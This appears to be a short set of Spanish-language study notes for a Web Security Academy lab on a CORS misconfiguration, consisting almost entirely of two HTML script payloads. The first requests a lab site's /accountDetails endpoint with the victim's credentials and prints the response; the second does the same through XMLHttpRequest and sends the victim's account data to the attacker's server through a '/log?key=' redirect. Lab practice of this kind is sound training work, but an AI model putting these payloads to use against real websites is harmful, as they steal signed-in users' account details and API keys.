 
Para ver la respuesta en mi consola :
```html
<script>
fetch("https://0a5200f003253a4380a9496c00ec0041.web-security-academy.net/accountDetails", {
    method: "GET",
    credentials: "include",
})
.then(response => response.text())  // Obtener el contenido de la respuesta
.then(text => {
    console.log(text);  // Imprimir el contenido en la consola
})
.catch(error => {
    console.error(error);  // Capturar y mostrar errores
});
</script>
```

Para ver la respuesta en mi servidor:
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a5200f003253a4380a9496c00ec0041.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![[Pasted image 20241103151444.png]]

